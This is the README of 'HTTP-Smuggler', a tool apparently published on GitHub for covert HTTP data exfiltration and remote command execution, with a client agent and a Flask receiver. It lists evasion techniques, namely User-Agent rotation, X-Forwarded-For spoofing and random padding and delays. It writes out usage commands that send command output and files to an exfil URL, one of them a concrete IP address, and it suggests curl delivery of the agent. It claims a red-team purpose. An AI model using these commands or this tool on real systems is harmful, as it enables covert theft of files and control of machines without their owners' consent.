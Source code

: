 # HTTP-Smuggler

![Python](https://img.shields.io/badge/python-3.6%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Platform](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey)

Covert HTTP smuggling tool for stealthy data exfiltration and command execution, specifically optimized for reliable Remote Code Execution (RCE) operations. The agent evades detection through chunked encoding and traffic spoofing techniques while maintaining robust command-and-control connectivity. Designed for red team engagements, it supports both immediate task execution and persistent monitoring modes. The Flask server securely collects and isolates payloads with proper logging for operational security.

## Features

- **Stealthy Data Exfiltration**: Files are transferred using chunked encoding and base64 obfuscation
- **Command Execution**: Remote command execution with results exfiltrated to server
- **Monitor Mode**: Repeated command execution at specified intervals
- **Multiple Delivery Options**:
  - Python script (cross-platform)
  - Standalone Windows executable (client.exe)
- **Evasion Techniques**:
  - Random User-Agent rotation
  - IP spoofing via X-Forwarded-For
  - Request size variation with random padding
  - Randomized delay between requests
- **Server Component**: Flask-based receiver with proper data handling

## Components

### Client Options
1. **Python Script (`client.py`)**
   - Cross-platform (Windows/Linux/macOS)
   - Requires Python environment

2. **Standalone Executable (`client.exe`)**
   - Windows-only compiled version
   - Same command structure as Python script
   - No Python installation required

### Server (`server.py`)
- Flask-based receiver endpoint
- Handles both command output and file uploads
- Stores received data with timestamps
- Includes basic security measures
- The server can deliver the client agent for easy deployment. For example using `curl http://server-ip/client.py`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Mattb709/HTTP-Smuggler.git
   cd HTTP-Smuggler
   ```

2. For Python version, install dependencies:
   ```bash
   pip install flask requests
   ```

## Usage

### Server Setup
```bash
python server.py
```

### Client Operations

**Using Python script:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
```

**Using Windows executable:**
```cmd
client.exe -f newtest.txt -s http://142.134.220.83:80/exfil
```

**Execute a single command:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
# OR
client.exe -c "whoami" -s http://your-server.com/exfil
```

**Exfiltrate a file:**
```bash
python client.py -f /path/to/file -s http://your-server.com/exfil
# OR
client.exe -f C:\path\to\file -s http://your-server.com/exfil
```

**Monitor mode (repeated execution):**
```bash
python client.py -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
# OR
client.exe -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
```
(Executes every 5 minutes)

## Options

| Flag | Description                                  | Required |
|------|----------------------------------------------|----------|
| -c   | Command to execute                           | Optional |
| -f   | File to exfiltrate                           | Optional |
| -s   | Server URL (default: http://mydomain.com/exfil) | No       |
| -m   | Enable monitor mode                          | No       |
| -t   | Time interval in minutes for monitor mode    | With -m  |

*Note: Options work identically in both Python script and compiled executable versions*

## Legal Disclaimer

This tool is provided for educational and authorized testing purposes only. The author is not responsible for any misuse or damage caused by this software. Always obtain proper authorization before testing any systems.

## License

MIT License - See [LICENSE](LICENSE) for details.

## Sample Images

**Server.py deployment and interaction from client:**
![img1](https://github.com/user-attachments/assets/235b8335-7e6c-42ed-9035-efa2a86baa37)
**Client.py operations:**
![img2](https://github.com/user-attachments/assets/a0a8b948-5d3a-4e88-a804-65a195620e1f)
